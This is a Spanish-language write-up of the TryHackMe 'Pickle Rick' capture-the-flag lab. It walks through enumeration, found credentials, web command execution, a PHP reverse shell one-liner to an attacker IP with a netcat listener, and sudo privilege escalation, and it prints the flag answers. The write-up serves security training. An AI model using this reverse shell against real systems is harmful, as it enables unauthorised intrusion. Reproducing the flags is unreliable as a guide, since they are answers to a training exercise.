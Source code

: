 # PickleRick
Máquina resuelta de *TryHackMe* en la que se trabaja la enumeración y *fingerprinting*, *reverse shell* y la escucha de puertos.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-Nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Dirsearch-005571?style=for-the-badge&logo=dirsearch&logoColor=white" />
  <img src="https://img.shields.io/badge/-php-777BB4?style=for-the-badge&logo=php&logoColor=white" />
  <img src="https://img.shields.io/badge/-Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ perteneciente a la plataforma *TryHackMe*. Este desafío ambientado en la serie de *Rick y Morty* requiere explotar un servidor web y encontrar 3 ingredientes (*flags*) para ayudar a *Rick* a crear una poción que lo transforme nuevamente en humano. Para ello, se deberá interactuar con un formulario, penetrar en la máquina y realizar una escalada de privilegios.

## Que hemos aprendido?

- Realizar *fingerprinting* y enumeración de puertos y enumeración web.
- Realizar una *reverse shell*.
- Poner en escucha los puertos de la máquina.
- Escalada de privilegios.

## Herramientas utilizadas

- *Kali Linux*.
- Enumeración: *Nmap*, *Dirsearch*, *Python*.
- Penetración: *Bash*, *PHP*, *Netcat*. 

## Steps

### Enumeración y fingerprinting

La máquina a vulnerar pertenece a la plataforma *TryHackMe*, la propia web te proporciona la IP de la máquina víctima. La conexión a esta se hace mediante una VPN que te proporciona THM y asigna una nueva IP para que tu máquina interactúe con la máquina vulnerable.
El primero paso es lanzar **Nmap** sin *ping* (-Pn) y con los *scripts* por *default* de la herramienta (-sC) para que encuentre vulnerabilidades. Además se quieren conocer las versiones que corren en cada puerto (-sV) y el sistema operativo (-O). No se indica, específicamente, que compruebe todos los puertos pues en este tipo de máquina no será necesario.

![Captura de pantalla 2025-04-04 131854](https://github.com/user-attachments/assets/8527c885-9cdd-499a-ba91-bebcf4b73f80)

El comando devuelve 2 puertos TCPs abiertos:  
- En el puerto 22 corre la versión *Openssh 8.2p1*, en un sistema *Ubuntu*, servicio *SSH*.  
- En el puerto 80 corre el servidor *Apache 2.4.41*, en un sistema *Ubuntu*, servicio *HTTP*.

Primero nos dirigimos, desde el navegador, al puerot 80 de la IP dada, donde se puede ver un mensaje de ayuda de *Rick*. Si se inspecciona el código de la página se puede encontrar un comentario con el nombre de usuario: *R1ckRul3s*.

![image](https://github.com/user-attachments/assets/52f9925c-635c-4310-bcb4-342b65b72e7e)

Seguidamente, con la ayuda de la herramienta **Dirsearch**, se hace una enumeración de posibles directorios y archivos que se encuentren en la web. Por la parte de directorios, únicamente aparece '/assets' pero su contenido no aporta ninguna pista. Sin embargo, sí aparecen varios archivos interesantes que son alzanzables. *Dirsearch* es lanzado con **Python3** indicando la IP a atacar (-u) y la lista a utilizar para la enumeración (-w); en este caso la 'raft-small-files-lowercase.txt'.

![Captura de pantalla 2025-04-04 134454](https://github.com/user-attachments/assets/664445ee-a900-445c-a035-085657bca083)

Al dirigrnos al archivo '/robots.txt', se encuentra lo que parece ser una contraseña que junto con el usuario antes encontrado, serán útiles para el otro archivo '/login.php', también hallado en la enumeración. 

![Captura de pantalla 2025-04-04 134517](https://github.com/user-attachments/assets/efdb16bd-b14c-41bd-bd19-edb158f80200)

| Usuario | Contraseña |
|---------|------------|
| R1ckRul3s | Wubbalubbadubdub |


### Vulnerabilidades explotadas

Al hacer el *log in* se llega a un formulario que accepta comandos. Después de realizar un <code>whoami</code> y un <code>pwd</code>, se descubre que somos el usuario 'www-data' y estamos en el directorio '/var/www/html'. Ejecutando <code>ls</code>, aparecen la lista de archivos que contiene el directorio entre los que destaca 'Sup3rS3cretPickl3Ingred.txt'. Para leer el contenido de este archivo es necesario utilizar el comando <code>less</code>, en lugar de <code>cat</code>, pues este está deshabilitado. De esta manera se encuentra el primer ingrediente.

<code>less Sup3rS3cretPickl3Ingred.txt</code>

**Flag: mr. meeseek hair**

![image](https://github.com/user-attachments/assets/281596d6-0bb6-454a-99a9-bc4494a38749)

Otro archivo interesante para inspeccionar es 'clue.txt', el cual informa de la posibilidad de encontrar otro ingrediente alrededor del *file system*. Se intenta navegar por los directorios a través del panel de comandos pero no es posible y se encuentran muchas limitaciones. Por ese motivo se intentará hacer una *reverse shell* para penetrar la máquina y trabajar desde dentro.

![Captura de pantalla 2025-04-08 174710](https://github.com/user-attachments/assets/efdbda6c-9acc-41bf-bac4-90fef94e646e)

Después de comprobar que la máquina víctima tiene **PHP** instalado mediante el comando <code>which php</code>, me dispongo a hacer la *reverse* con el código sacado de la web de [*pentestmonkey*](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Únicamente es preciso cambiar la dirección IP por la de la máquina atacante (en este caso, nos la proporciona THM mediante la VPN) y el puerto que se pone en escucha.

<code>php -r '$sock=fsockopen("10.23.92.113",1234);exec("/bin/sh -i <&3 >&3 2>&3");'</code>

Desde la máquina anfitriona se pone en escucha (-l) el puerto (-p) 1234 con la herramienta **Netcat**. Se le indica verbosidad (-v) para que muestre información como las conexiones establecidas y que no resuelva nombres de dominio (-n), solo se conecte a las direcciones IP, lo que hace que la conexión sea más rápida, evitando la resolución de DNS.

![Captura de pantalla 2025-04-08 180322](https://github.com/user-attachments/assets/655dc72c-3564-4a25-be3f-409d1498901a)

Una vez dentro, navegando hacia el directorio '/home/rick' aparece un archivo llamado 'second ingredients' donde se encuentra la segunda bandera. Desde dentro de la máquina ya se puede hacer uso de <code>cat</code> teniendo en cuenta que el archivo lo pondremos entre comas simples, pues su nombre está formado por dos palabras.

<code>cat 'second ingredients'</code>

**Flag: jerry tear**

![Captura de pantalla 2025-04-08 180738](https://github.com/user-attachments/assets/0607b361-f320-4904-a919-d9dfc0f53ef5)

Para encontrar el último ingrediente, se debe escalar privilegios. Primero se comprueba que comandos, el usuario actual (www-data), puede ejecutar con permisos de *sudo*. 

<code>sudo -l</code>

En la respuesta se aclara que se puede pasar a usuario *root* sin necesidad de instertar ninguna contraseña. Esto permite acceder al diretorio /*root* y encontrar dentro del archivo '3rd.txt' el tercer ingrediente.

![Captura de pantalla 2025-04-08 181105](https://github.com/user-attachments/assets/baf2e399-5077-4b13-b7de-40b90db803b0)

**Flag: fleeb juice **
